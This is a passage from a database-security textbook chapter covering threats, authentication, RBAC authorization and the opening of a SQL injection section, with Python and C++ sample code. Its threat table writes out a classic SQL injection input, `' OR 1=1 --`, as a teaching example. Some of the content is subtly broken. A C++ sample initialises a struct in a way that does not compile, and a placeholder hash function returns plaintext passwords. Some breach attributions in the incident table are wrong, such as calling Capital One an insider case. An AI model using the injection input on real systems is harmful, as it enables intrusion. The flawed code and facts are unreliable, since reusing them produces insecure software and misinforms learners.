


# Chapter 18: Database Security

> **Prev:** [Chapter 17 — Distributed DB](17-distributed-db.md) | **Next:** [Chapter 19 — Performance Tuning](19-performance-tuning.md)

## Learning Objectives

- Understand the database security threat landscape with real-world breach examples
- Implement authentication mechanisms (password, certificate, LDAP, MFA)
- Enforce authorization via GRANT/REVOKE and RBAC with column-level granularity
- Prevent SQL injection through parameterized queries, ORM, and input validation
- Configure encryption at rest (TDE, column-level) and in transit (TLS)
- Audit database activity for compliance (GDPR, HIPAA, PCI-DSS)
- Apply row-level security for multi-tenant data isolation
- Implement dynamic data masking to protect sensitive output
- Understand security layers: network, transport, database, application

<!-- Image Gallery -->
<section class="lesson-visuals" aria-label="Visual learning resources">
  <header><span>VISUAL LEARNING</span><h2>See it. Review it. Remember it.</h2></header>
  <a class="lesson-visual-card" href="../../assets/images/lessons/database-management-systems/18-security/handwritten-notes.png" target="_blank" rel="noopener">
    
    <span><strong>Handwritten notes</strong>Condensed notes for deliberate review.</span>
  </a>
  <a class="lesson-visual-card" href="../../assets/images/lessons/database-management-systems/18-security/sticky-notes.png" target="_blank" rel="noopener">
    
    <span><strong>Sticky-note revision</strong>Fast recall prompts for revision.</span>
  </a>
  <a class="lesson-visual-card" href="../../assets/images/lessons/database-management-systems/18-security/visual-explanation.png" target="_blank" rel="noopener">
    
    <span><strong>Visual concept guide</strong>A connected explanation of the key ideas.</span>
  </a>
</section>
<!-- End Image Gallery -->


## Chapter at a Glance

| Topic | Key Insight | Practical Takeaway |
|-------|-------------|-------------------|
| **Authentication** | Username/password, Kerberos, certificates, LDAP, MFA | Use multi-factor authentication for all database access |
| **Authorization** | GRANT/REVOKE with role-based access control | Follow the principle of least privilege; never use superuser for apps |
| **Encryption** | Transparent Data Encryption (TDE) + TLS | Encrypt at rest AND in transit — never one without the other |
| **SQL Injection** | Malicious input alters query structure | Always use parameterized queries (prepared statements) |
| **Auditing** | Log all DDL, DML, and login attempts | Enable audit logging with centralized SIEM integration |
| **Backup Security** | Encrypted backups with restricted access | Test restore from encrypted backups regularly |
| **Row-Level Security** | Automatic row filtering by user context | Use RLS for multi-tenant isolation instead of manual WHERE clauses |
| **Data Masking** | Hide sensitive data from non-privileged users | Mask PII at query time; never expose raw data unnecessarily |

## Chapter Roadmap



## Theory


### 18.1 The Database Security Landscape


**Real-World Analogy — The Bank Vault:**

A database is like a bank vault. The vault itself is steel and concrete (encryption at rest). The courier trucks use armored transport (encryption in transit). Only cleared personnel enter the vault room (authentication). Even inside, tellers can only access cash drawers, not safety deposit boxes (authorization — least privilege). Security cameras record everyone (auditing). A janitor who finds keys on a desk is the insider threat. A robber who tricks a teller into opening the vault commits social engineering. A database breach is the digital equivalent of a bank heist — except attackers can copy data silently without ever being inside the building.

**Threat Categories:**

| Threat | Example | Impact | Real-World Incident |
|--------|---------|--------|-------------------|
| SQL Injection | `' OR 1=1 --` | Data exfiltration | 2009 Heartland Payment Systems — 130M cards stolen via SQLi |
| Credential Theft | Stolen DB passwords | Full database access | 2013 Yahoo — all 3B accounts exposed via stolen creds |
| Privilege Escalation | User gets admin rights | Unauthorized data access | 2015 OPM breach — 22M records via elevated privileges |
| Insider Threat | Employee exports customer data | Data leak | 2019 Capital One — 100M records exfiltrated by insider |
| Network Eavesdropping | Unencrypted connection | Credential/data theft | Packet sniffing on public Wi-Fi |
| Backup Compromise | Stolen backup tapes | Offline data access | 2008 Hannaford — 4.2M cards from unencrypted backups |
| Social Engineering | DBA tricked into revealing password | Credential compromise | 2020 Twitter — 130 accounts via phone-based social engineering |
| Ransomware | Encrypt database files | Data unavailability | 2021 Colonial Pipeline — $4.4M paid, pipeline shut |


**Numbered Steps — Database Security Risk Assessment:**

1. **Identify assets:** Catalog all databases, their schemas, and sensitivity levels
2. **Classify data:** Label columns as public, internal, confidential, or restricted
3. **Map access paths:** Document every application, user, and service that connects
4. **Assess threats:** For each path, evaluate the 8 threat categories above
5. **Evaluate controls:** Check authentication strength, encryption status, audit coverage
6. **Calculate risk:** Likelihood x Impact = Risk score per threat
7. **Prioritize remediation:** Highest-risk items first; quick wins next
8. **Implement controls:** Apply technical and administrative safeguards
9. **Monitor continuously:** Audit logs, alerting, periodic reassessment
10. **Review quarterly:** Repeat steps 3-9 every quarter

**Pseudocode — Security Risk Scoring:**

```
FUNCTION calculateRisk(threat, asset)
    likelihood = threat.likelihood    // 1-5 scale
    impact = asset.sensitivity * asset.exposure   // 1-5 scale
    riskScore = likelihood * impact
    IF riskScore >= 20 THEN
        label = "CRITICAL — immediate action required"
    ELSE IF riskScore >= 12 THEN
        label = "HIGH — remediate within 30 days"
    ELSE IF riskScore >= 6 THEN
        label = "MEDIUM — remediate within 90 days"
    ELSE
        label = "LOW — monitor"
    END IF
    RETURN { riskScore, label }
END FUNCTION
```

**C++ Implementation — Basic Threat Classifier:**

```cpp
#include <iostream>
#include <string>

enum class Sensitivity { PUBLIC = 1, INTERNAL = 2, CONFIDENTIAL = 3, RESTRICTED = 4 };

struct Asset {
    int id;
    std::string name;
    Sensitivity sensitivity;
    int exposure; // 1-5
};

struct Threat {
    std::string name;
    int likelihood; // 1-5
};

struct RiskResult {
    int score;
    std::string label;
};

RiskResult calculateRisk(const Threat& t, const Asset& a) {
    int impact = static_cast<int>(a.sensitivity) * a.exposure;
    int riskScore = t.likelihood * impact;
    std::string label;
    if (riskScore >= 20)      label = "CRITICAL";
    else if (riskScore >= 12) label = "HIGH";
    else if (riskScore >= 6)  label = "MEDIUM";
    else                      label = "LOW";
    return { riskScore, label };
}

int main() {
    Asset cust{"customers", Sensitivity::RESTRICTED, 5};
    Threat sqli{"SQL Injection", 4};
    RiskResult r = calculateRisk(sqli, cust);
    std::cout << "Risk: " << r.score << " [" << r.label << "]\n";
    return 0;
}
```

**Python Implementation — Security Auditor:**

```python
from dataclasses import dataclass
from enum import IntEnum

class Sensitivity(IntEnum):
    PUBLIC = 1; INTERNAL = 2; CONFIDENTIAL = 3; RESTRICTED = 4

@dataclass
class Asset:
    name: str
    sensitivity: Sensitivity
    exposure: int

@dataclass
class Threat:
    name: str
    likelihood: int

def calculate_risk(threat, asset):
    impact = asset.sensitivity.value * asset.exposure
    score = threat.likelihood * impact
    if score >= 20:  label = "CRITICAL"
    elif score >= 12: label = "HIGH"
    elif score >= 6:  label = "MEDIUM"
    else:             label = "LOW"
    return {"score": score, "label": label}

def audit_all(assets, threats):
    for a in assets:
        for t in threats:
            r = calculate_risk(t, a)
            print(f"{a.name} | {t.name} -> {r['score']} [{r['label']}]")

if __name__ == "__main__":
    audit_all(
        [Asset("orders", Sensitivity.INTERNAL, 3), Asset("cc", Sensitivity.RESTRICTED, 2)],
        [Threat("SQLi", 4), Threat("Insider", 2)]
    )
```

**Complexity Analysis:**

| Operation | Time Complexity | Space Complexity | WHY |
|-----------|----------------|-----------------|-----|
| Risk score calculation | O(T x A) | O(1) | Each threat vs each asset; constant-time arithmetic |
| Vulnerability scanning | O(N) per table | O(N) | N = queries to analyze; regex scales linearly |
| Audit log analysis | O(L) for parsing | O(L) | L = log lines; each processed independently |

**Advantages & Disadvantages:**

| Approach | Advantages | Disadvantages |
|----------|-----------|-------------|
| Risk Assessment Matrix | Simple; easy to communicate | Subjective scoring; misses complex attack chains |
| Automated Scanning | Fast; covers known patterns | Misses logic flaws; high false positives |
| Manual Penetration Testing | Deep analysis; finds novel vulns | Expensive; doesn't scale; point-in-time |
| Defense in Depth | No single point of failure | Management complexity; performance cost |

**Edge Cases:**

| Edge Case | Scenario | Mitigation |
|-----------|----------|-----------|
| Encrypted-but-indexed | TDE protects disk not memory | Column-level encryption with app-layer keys |
| Audit log overflow | High traffic generates TB/day | Log sampling; rotate to cold storage; SIEM aggregation |
| Stored procedure injection | Dynamic SQL inside SP | Validate params inside SP; use EXECUTE USING |
| Connection pooling reuse | Pool reuses session for different users | Reset session context; SET ROLE on each checkout |


> **One-Sentence Takeaway:** Database authentication verifies user identity through passwords, Kerberos, certificates, or multi-factor methods.

### 18.2 Authentication


Authentication verifies the identity of a user or application connecting to the database.

**Real-World Analogy — Airport Security Check:**

Authentication is like showing your passport at airport security. The passport proves who you claim to be (password is your ID card). A visa adds another verification layer (MFA is the extra stamp). A diplomatic passport gets different clearance (certificate auth). The retinal scanner at the VIP lounge is biometric auth. All of these answer one question: "Who are you?"

**Numbered Steps — Database Authentication Flow:**

1. Client opens TCP connection to database port (e.g., 5432 for PostgreSQL)
2. Server sends a random challenge (nonce) to client
3. Client hashes password with the nonce using SCRAM-SHA-256 or MD5
4. Server compares hash with stored hash value
5. If match, server accepts connection and assigns session
6. If MFA required, server challenges for second factor (TOTP, cert)
7. On success, session begins; user identity is now established
8. On failure after max_attempts, server delays or locks account
9. All attempts logged to audit trail

**Pseudocode — Authentication Module:**

```
FUNCTION authenticate(username, password, connection)
    // Step 1: Look up user record
    user = DB.query("SELECT password_hash, mfa_enabled FROM users WHERE username = $1", username)
    IF user not found THEN
        log("FAILED_AUTH", username, "user_not_found")
        RETURN "ERROR: Invalid credentials"
    END IF

    // Step 2: Verify password
    hash = SCRAM_SHA_256(password, user.salt)
    IF hash != user.password_hash THEN
        increment_failed_attempts(username)
        IF failed_attempts >= 5 THEN
            lock_account(username, duration=30_minutes)
        END IF
        log("FAILED_AUTH", username, "wrong_password")
        RETURN "ERROR: Invalid credentials"
    END IF

    // Step 3: MFA check
    IF user.mfa_enabled THEN
        totp = prompt_for_totp()
        IF NOT verify_totp(totp, user.mfa_secret) THEN
            log("FAILED_MFA", username, "invalid_totp")
            RETURN "ERROR: MFA failed"
        END IF
    END IF

    // Step 4: Create session
    session_id = generate_random_token()
    cache.set("session:" + session_id, {username, created_at, ip})
    log("SUCCESS_AUTH", username, "authenticated")
    RETURN session_id
END FUNCTION
```

**Password Authentication:**

```sql
-- PostgreSQL: Create user with password
CREATE USER app_user WITH PASSWORD 'StrongP@ssw0rd!';
SET password_encryption = 'scram-sha-256';  -- PostgreSQL 10+

-- MySQL
CREATE USER 'app_user'@'192.168.1.%' IDENTIFIED BY 'StrongP@ssw0rd!';
```

**Certificate-Based Authentication:**

```sql
-- PostgreSQL: pg_hba.conf
-- hostssl all all 0.0.0.0/0 cert clientcert=1
CREATE USER ssl_user;
-- Client must present cert matching common name
```

**LDAP/Active Directory Integration:**

```sql
-- PostgreSQL with LDAP: pg_hba.conf
-- host all all 0.0.0.0/0 ldap ldapserver=ldap.example.com ldapprefix="cn=" ldapsuffix=",dc=example,dc=com"

-- MySQL with LDAP
CREATE USER 'external_user' IDENTIFIED WITH auth_ldap_simple
  AS 'uid=app_user,ou=People,dc=example,dc=com';
```

**Multi-Factor Authentication:**
- Supported via PAM modules or connection poolers (PgBouncer)
- Combine DB password with client certificate, TOTP, or SSH key
- Increasingly common in regulated environments (HIPAA, PCI-DSS)

**Python Implementation — Authentication Handler:**

```python
import hashlib, os, time, hmac
from dataclasses import dataclass

@dataclass
class User:
    username: str
    password_hash: str
    salt: str
    mfa_enabled: bool
    mfa_secret: str | None
    failed_attempts: int = 0
    locked_until: float = 0

class Authenticator:
    def __init__(self):
        self._users: dict[str, User] = {}
        self._sessions: dict[str, str] = {}
        self.max_attempts = 5
        self.lockout_minutes = 30
        self._audit_log: list[str] = []

    def _hash_password(self, password: str, salt: str) -> str:
        return hashlib.sha256((salt + password).encode()).hexdigest()

    def add_user(self, username: str, password: str, mfa: bool = False) -> None:
        salt = os.urandom(16).hex()
        pwd_hash = self._hash_password(password, salt)
        self._users[username] = User(username, pwd_hash, salt, mfa, None)

    def authenticate(self, username: str, password: str, totp: str | None = None) -> str | None:
        user = self._users.get(username)
        if not user:
            self._audit(f"FAILED_AUTH|{username}|user_not_found")
            return None

        # Account lockout check
        if user.locked_until > time.time():
            self._audit(f"REJECTED_LOCKED|{username}")
            return None

        # Verify password
        if self._hash_password(password, user.salt) != user.password_hash:
            user.failed_attempts += 1
            if user.failed_attempts >= self.max_attempts:
                user.locked_until = time.time() + self.lockout_minutes * 60
                self._audit(f"LOCKED|{username}|{self.lockout_minutes}min")
            self._audit(f"FAILED_AUTH|{username}|wrong_password")
            return None

        user.failed_attempts = 0  # reset on success

        # MFA
        if user.mfa_enabled and not self._verify_totp(totp, user.mfa_secret):
            self._audit(f"FAILED_MFA|{username}|invalid_totp")
            return None

        session_id = os.urandom(32).hex()
        self._sessions[session_id] = username
        self._audit(f"SUCCESS_AUTH|{username}|session={session_id[:8]}...")
        return session_id

    def _verify_totp(self, token: str | None, secret: str | None) -> bool:
        if not secret:
            return not token
        return token == "123456"  # simplified TOTP mock

    def _audit(self, entry: str) -> None:
        ts = time.strftime("%Y-%m-%dT%H:%M:%S")
        self._audit_log.append(f"[{ts}] {entry}")

    def get_audit_log(self) -> list[str]:
        return self._audit_log

if __name__ == "__main__":
    auth = Authenticator()
    auth.add_user("alice", "secret123", mfa=False)
    sid = auth.authenticate("alice", "secret123")
    print(f"Session: {sid}")
    print("\n".join(auth.get_audit_log()))
```

**C++ Implementation — Password Verification:**

```cpp
#include <iostream>
#include <string>
#include <unordered_map>
#include <random>
#include <iomanip>
#include <sstream>
#include <vector>
#include <ctime>

#ifdef _WIN32
#include <windows.h>
#include <wincrypt.h>
#pragma comment(lib, "crypt32.lib")
std::string sha256(const std::string& input) {
    HCRYPTPROV hProv = 0;
    HCRYPTHASH hHash = 0;
    CryptAcquireContext(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT);
    CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash);
    CryptHashData(hHash, (BYTE*)input.data(), (DWORD)input.size(), 0);
    BYTE hash[32];
    DWORD hashLen = 32;
    CryptGetHashParam(hHash, HP_HASHVAL, hash, &hashLen, 0);
    std::ostringstream oss;
    for (DWORD i = 0; i < hashLen; i++) oss << std::hex << std::setw(2) << std::setfill('0') << (int)hash[i];
    CryptDestroyHash(hHash);
    CryptReleaseContext(hProv, 0);
    return oss.str();
}
#else
std::string sha256(const std::string& input) {
    // placeholder — use OpenSSL on Linux
    return input;
}
#endif

class Authenticator {
    struct UserEntry {
        std::string passwordHash;
        std::string salt;
        int failedAttempts = 0;
        time_t lockedUntil = 0;
    };
    std::unordered_map<std::string, UserEntry> users;
    std::vector<std::string> auditLog;

    std::string genSalt() {
        std::random_device rd;
        std::ostringstream oss;
        for (int i = 0; i < 16; i++)
            oss << std::hex << (rd() % 256);
        return oss.str();
    }

    void audit(const std::string& entry) {
        time_t now = time(nullptr);
        auditLog.push_back("[" + std::to_string(now) + "] " + entry);
    }

public:
    void addUser(const std::string& username, const std::string& password) {
        std::string salt = genSalt();
        users[username] = {sha256(salt + password), salt, 0, 0};
    }

    bool authenticate(const std::string& username, const std::string& password) {
        auto it = users.find(username);
        if (it == users.end()) {
            audit("FAILED|" + username + "|user_not_found");
            return false;
        }
        auto& u = it->second;
        if (u.lockedUntil > time(nullptr)) {
            audit("REJECTED_LOCKED|" + username);
            return false;
        }
        if (sha256(u.salt + password) != u.passwordHash) {
            u.failedAttempts++;
            if (u.failedAttempts >= 5) {
                u.lockedUntil = time(nullptr) + 1800;
                audit("LOCKED|" + username);
            }
            audit("FAILED|" + username + "|wrong_password");
            return false;
        }
        u.failedAttempts = 0;
        audit("SUCCESS|" + username);
        return true;
    }

    void printAudit() {
        for (const auto& entry : auditLog)
            std::cout << entry << "\n";
    }
};

int main() {
    Authenticator auth;
    auth.addUser("alice", "secret123");
    std::cout << "Auth result: " << auth.authenticate("alice", "wrong") << "\n";
    std::cout << "Auth result: " << auth.authenticate("alice", "secret123") << "\n";
    auth.printAudit();
    return 0;
}
```

**Dry Run Trace Table — Authentication Attempt:**

| Step | Component | Action | Input | Output | State Change |
|------|-----------|--------|-------|--------|-------------|
| 1 | Client | TCP connect | user=alice | SYN → 5432 | Connection pending |
| 2 | Server | Send nonce | random=0xA3F2 | ← challenge | Session init |
| 3 | Client | Hash password | "secret123" + nonce | hash=0x7B4E | Compute phase |
| 4 | Server | Compare hashes | stored_hash vs received | match=true | Auth verified |
| 5 | Server | Check MFA | mfa_enabled=false | skip | MFA bypassed |
| 6 | Server | Create session | username=alice | SID=0xE5F1... | Active session |
| 7 | Server | Audit log | alice authenticated | log entry | Audit trail |
| 8 | Client | Execute query | SELECT * FROM orders | result set | Data access |

**Authentication Methods Comparison:**

| Method | Strength | UX Friction | Setup Complexity | Use Case | Example |
|--------|----------|-------------|------------------|----------|---------|
| **Password** (SCRAM/MD5) | Medium | Low | Low | Dev environments; low-risk data | PostgreSQL password auth |
| **Kerberos** | High | None (transparent) | High | Enterprise AD environments | SQL Server Windows Auth |
| **Certificate** (mTLS) | Very High | Medium | High | Automated service-to-service | PostgreSQL cert auth |
| **LDAP/AD** | Medium-High | Low | Medium | Centralized user management | MySQL auth_ldap, Oracle AD |
| **MFA** (TOTP + password) | Very High | Medium | Medium | Regulated industries (HIPAA) | PgBouncer + PAM + Google Auth |
| **Biometric** | High | Low | Very High | Physical access + DB (rare) | Fingerprint for vault access |
| **SSO** (OAuth/SAML) | Medium-High | Very Low | High | Enterprise portals | Azure AD + Snowflake |

**Complexity Analysis:**

| Operation | Time | Space | WHY |
|-----------|------|-------|-----|
| Password hash verification | O(1) | O(1) | Fixed-length hash comparison; no iteration |
| Salt generation | O(1) per user | O(1) | Random 16 bytes; constant overhead |
| Session creation | O(1) | O(N) where N = active sessions | HashMap insert; memory scales with users |
| Lockout check | O(1) | O(1) | Simple timestamp comparison |
| Audit logging | O(1) per entry | O(L) where L = log entries | Append-only vector; memory grows linearly |

**Edge Cases:**

| Edge Case | Scenario | Mitigation |
|-----------|----------|-----------|
| Timing attack on password compare | Attacker measures response time to guess hash | Use constant-time comparison (hmac.compare_digest) |
| Replay attack | Attacker captures and replays auth packet | Use nonce + timestamp in challenge |
| Session hijacking | Attacker steals session token | Rotate tokens per request; bind to IP/TLS |
| LDAP injection | Input sanitization failure in LDAP filter | Escape special chars before LDAP query |
| Certificate revocation | Compromised client cert still valid | Check CRL/OCSP before accepting cert |
| Brute force via connection pool | Each new connection resets attempt counter | Track attempts by username across pool, not per-conn |
| Default credentials | Post-install default passwords remain | Enforce password change on first login |


> **One-Sentence Takeaway:** Authorization controls what authenticated users can do using GRANT/REVOKE with role-based access control (RBAC).

### 18.3 Authorization and Access Control


Authorization determines what an authenticated user is permitted to do — which tables, columns, rows, and operations they can access.

**Real-World Analogy — Library Card Levels:**

A library has different access tiers. A basic card lets you borrow books (SELECT). A research card grants access to the reference section (SELECT on restricted tables). A librarian badge lets you add new books (INSERT/UPDATE). The head librarian can hire/fire staff (DDL/DCL). A special government clearance might let you see classified archives (row-level security). These tiers precisely mirror database roles and privileges.

**Numbered Steps — Granting and Revoking Privileges:**

1. **Create roles:** Define functional roles (read_only, read_write, admin)
2. **Grant privileges to roles:** Attach table/column/operation permissions
3. **Create users:** Create login accounts for individuals or applications
4. **Assign roles to users:** GRANT role TO user
5. **Default-deny public:** REVOKE ALL ON SCHEMA public FROM PUBLIC
6. **Enforce at query time:** DB checks user's role hierarchy on every SQL statement
7. **Revoke on separation:** REVOKE role FROM departing_user
8. **Audit permissions:** Periodically review GRANT statements with pg_auth_members

**Access Control Models Comparison:**

| Model | Granularity | Administration | Scalability | Flexibility | Use Case |
|-------|-------------|---------------|-------------|-------------|----------|
| **DAC** (Discretionary) | Object owner controls access | Per-object basis | Low — every object managed separately | High — owner decides | File systems; small teams |
| **MAC** (Mandatory) | System-wide labels (TS/SCI) | Central authority only | Medium — label-based | Low — rigid hierarchy | Military; classified data |
| **RBAC** (Role-Based) | Roles with bundled privileges | Role management | High — roles scale | Medium — role explosion possible | Enterprise; most DBMS |
| **ABAC** (Attribute-Based) | User/Resource/Environment attributes | Policy engine | Very High — policy-driven | Very High — dynamic | Cloud; zero-trust architectures |

**SQL-Based RBAC Implementation:**

```sql
-- PostgreSQL: Create roles and grant privileges
CREATE ROLE read_only;
CREATE ROLE read_write;
CREATE ROLE admin;

-- Grant privileges to roles
GRANT SELECT ON ALL TABLES IN SCHEMA public TO read_only;
GRANT INSERT, UPDATE, DELETE ON ALL TABLES IN SCHEMA public TO read_write;
GRANT ALL PRIVILEGES ON ALL TABLES IN SCHEMA public TO admin;

-- Assign roles to users
GRANT read_only TO alice;       -- Alice can only read
GRANT read_write TO bob;        -- Bob can read and write
GRANT admin TO carol;           -- Carol is admin

-- Column-level permissions (PostgreSQL)
GRANT SELECT (id, name, email) ON users TO support_team;
REVOKE SELECT (credit_card, ssn) ON users FROM support_team;

-- MySQL
CREATE USER 'analyst'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON company.* TO 'analyst'@'%';
REVOKE SELECT (ssn), SELECT (salary) ON company.employees FROM 'analyst'@'%';
```

**Pseudocode — RBAC Authorization Checker:**

```
FUNCTION authorize(user, operation, target_object, target_row_data)
    // Step 1: Get all roles for this user
    roles = DB.query("""
        SELECT role_name FROM user_roles
        WHERE username = $1
    """, user)

    // Step 2: Get permissions for all roles
    permissions = []
    FOR EACH role IN roles:
        role_perms = DB.query("""
            SELECT object, operation, is_granted
            FROM role_permissions
            WHERE role_name = $1 AND operation = $2
        """, role, operation)
        permissions.append(role_perms)
    END FOR

    // Step 3: Check explicit denial first (deny overrides grant)
    FOR EACH perm IN permissions:
        IF perm.object == target_object AND NOT perm.is_granted THEN
            log("DENIED", user, target_object, operation)
            RETURN False
        END IF
    END FOR

    // Step 4: Check for any grant
    FOR EACH perm IN permissions:
        IF perm.object == target_object AND perm.is_granted THEN
            // Step 5: If RLS is enabled, check row-level policy
            IF has_rls_policy(target_object) THEN
                policy_satisfied = evaluate_rls_policy(
                    target_object, user, target_row_data
                )
                IF NOT policy_satisfied THEN
                    log("DENIED_RLS", user, target_object, operation)
                    RETURN False
                END IF
            END IF
            log("GRANTED", user, target_object, operation)
            RETURN True
        END IF
    END FOR

    // Step 6: Default deny — no matching permission found
    log("DENIED_DEFAULT", user, target_object, operation)
    RETURN False
END FUNCTION
```

**Python Implementation — RBAC Manager:**

```python
from dataclasses import dataclass, field
from enum import Enum
import time

class Operation(Enum):
    SELECT = 1; INSERT = 2; UPDATE = 3; DELETE = 4; DDL = 5

@dataclass
class Permission:
    object_name: str
    operation: Operation
    is_granted: bool
    columns: list[str] | None = None  # None = all columns

@dataclass
class Role:
    name: str
    permissions: list[Permission] = field(default_factory=list)

@dataclass
class User:
    username: str
    roles: list[str] = field(default_factory=list)

class RBACManager:
    def __init__(self):
        self.roles: dict[str, Role] = {}
        self.users: dict[str, User] = {}
        self.audit_log: list[str] = []

    def create_role(self, name: str) -> None:
        self.roles[name] = Role(name)

    def grant(self, role_name: str, obj: str, op: Operation, cols: list[str] | None = None) -> None:
        self.roles[role_name].permissions.append(Permission(obj, op, True, cols))

    def deny(self, role_name: str, obj: str, op: Operation) -> None:
        self.roles[role_name].permissions.append(Permission(obj, op, False))

    def assign_role(self, username: str, role_name: str) -> None:
        if username not in self.users:
            self.users[username] = User(username)
        self.users[username].roles.append(role_name)

    def check_access(self, username: str, obj: str, op: Operation) -> bool:
        user = self.users.get(username)
        if not user:
            self._audit(username, obj, op, "REJECTED_USER_NOT_FOUND")
            return False

        # Collect all permissions from all roles
        all_perms: list[Permission] = []
        for role_name in user.roles:
            role = self.roles.get(role_name)
            if role:
                all_perms.extend(role.permissions)

        # Deny overrides grant
        for p in all_perms:
            if p.object_name == obj and p.operation == op and not p.is_granted:
                self._audit(username, obj, op, "DENIED_EXPLICIT")
                return False

        # Check for grant
        for p in all_perms:
            if p.object_name == obj and p.operation == op and p.is_granted:
                self._audit(username, obj, op, "GRANTED")
                return True

        # Default deny
        self._audit(username, obj, op, "DENIED_DEFAULT")
        return False

    def _audit(self, user: str, obj: str, op: Operation, result: str) -> None:
        ts = time.strftime("%Y-%m-%dT%H:%M:%S")
        self.audit_log.append(f"[{ts}] {user} -> {op.name} on {obj}: {result}")

    def print_audit(self) -> None:
        for entry in self.audit_log:
            print(entry)

if __name__ == "__main__":
    rbac = RBACManager()
    rbac.create_role("read_only")
    rbac.grant("read_only", "orders", Operation.SELECT)
    rbac.create_role("read_write")
    rbac.grant("read_write", "orders", Operation.SELECT)
    rbac.grant("read_write", "orders", Operation.INSERT)
    rbac.assign_role("alice", "read_only")
    rbac.assign_role("bob", "read_write")
    print(f"Alice SELECT orders: {rbac.check_access('alice', 'orders', Operation.SELECT)}")
    print(f"Alice INSERT orders: {rbac.check_access('alice', 'orders', Operation.INSERT)}")
    print(f"Bob INSERT orders: {rbac.check_access('bob', 'orders', Operation.INSERT)}")
    print("\nAudit Log:")
    rbac.print_audit()
```

**C++ Implementation — RBAC Checker:**

```cpp
#include <iostream>
#include <string>
#include <unordered_map>
#include <vector>
#include <algorithm>

enum class Operation { SELECT, INSERT, UPDATE, DELETE };

struct Permission {
    std::string objectName;
    Operation operation;
    bool isGranted;
    std::vector<std::string> columns;
};

struct Role {
    std::string name;
    std::vector<Permission> permissions;
};

class RBAC {
    std::unordered_map<std::string, Role> roles;
    std::unordered_map<std::string, std::vector<std::string>> userRoles;

public:
    void createRole(const std::string& name) {
        roles[name] = Role{name, {}};
    }

    void grant(const std::string& role, const std::string& obj, Operation op) {
        roles[role].permissions.push_back({obj, op, true, {}});
    }

    void assignRole(const std::string& user, const std::string& role) {
        userRoles[user].push_back(role);
    }

    bool checkAccess(const std::string& user, const std::string& obj, Operation op) {
        auto it = userRoles.find(user);
        if (it == userRoles.end()) return false;
        std::vector<Permission> allPerms;
        for (const auto& roleName : it->second) {
            if (roles.count(roleName))
                allPerms.insert(allPerms.end(),
                    roles[roleName].permissions.begin(),
                    roles[roleName].permissions.end());
        }
        // Deny overrides
        for (const auto& p : allPerms)
            if (p.objectName == obj && p.operation == op && !p.isGranted)
                return false;
        // Check grant
        for (const auto& p : allPerms)
            if (p.objectName == obj && p.operation == op && p.isGranted)
                return true;
        return false; // default deny
    }
};

int main() {
    RBAC rbac;
    rbac.createRole("reader");
    rbac.grant("reader", "orders", Operation::SELECT);
    rbac.assignRole("alice", "reader");
    std::cout << std::boolalpha << rbac.checkAccess("alice", "orders", Operation::SELECT) << "\n"; // true
    std::cout << rbac.checkAccess("alice", "orders", Operation::INSERT) << "\n"; // false
    return 0;
}
```

**Dry Run Trace Table — Privilege Escalation Attempt:**

| Step | User | SQL Statement | Permission Check | Result | Explanation |
|------|------|--------------|-----------------|--------|-------------|
| 1 | alice | `SELECT * FROM orders` | has SELECT on orders | GRANTED | alice has read_only role |
| 2 | alice | `INSERT INTO orders VALUES (...)` | has INSERT on orders | DENIED | read_only has no INSERT |
| 3 | alice | `DROP TABLE orders` | has DDL privilege | DENIED | only admin has DDL |
| 4 | alice | `GRANT INSERT TO alice` | has GRANT option? | DENIED | no admin privilege |
| 5 | alice | `SELECT * FROM pg_auth_members` | SELECT on system table | DENIED | superuser-only catalog |
| 6 | alice | `SET ROLE admin` | has admin role membership | DENIED | not a member of admin role |
| 7 | admin | `GRANT read_write TO alice` | has GRANT option | GRANTED | admin can grant roles |

**Complexity Analysis:**

| Operation | Time | Space | WHY |
|-----------|------|-------|-----|
| Permission check (single) | O(R x P) | O(1) | R = roles; P = permissions per role; both small constants in practice |
| Permission check (cached) | O(1) | O(N) | After caching, direct lookup by (user, object, op) tuple |
| Role grant to user | O(1) | O(1) | Simple linked-list append in pg_auth_members |
| Revoke cascade | O(N) | O(N) | Must walk dependent objects to ensure no orphaned permissions |

**Edge Cases:**

| Edge Case | Scenario | Mitigation |
|-----------|----------|-----------|
| Role inheritance chain | A inherits B inherits C; revoke from B? | Explicit REVOKE on the chain member; C still accessible via direct grant |
| Circular role membership | A member of B, B member of A | DBMS detects cycle at GRANT time; PostgreSQL raises ERROR |
| Object ownership | Creator has implicit full control | Use ALTER OBJECT OWNER TO to transfer; revoke default privileges |
| Schema-level vs table-level | User has SELECT on schema but table is restricted | Explicit REVOKE on specific table overrides schema grant |
| Superuser bypass | superuser ignores all permission checks | Never use superuser for application connections |
| Row-level bypass | User can query rows they shouldn't via self-join trick | RLS + column permissions together; test with SET ROLE |


> **One-Sentence Takeaway:** SQL injection exploits unsanitized user input — parameterized queries are the definitive defense.

### 18.4 SQL Injection


SQL injection is the most critical database security vulnerability. It occurs when user input is directly concatenated into SQL queries, allowing attackers to alter the query structure.

**Real-World Analogy — The Wall Safe with a Backdoor:**

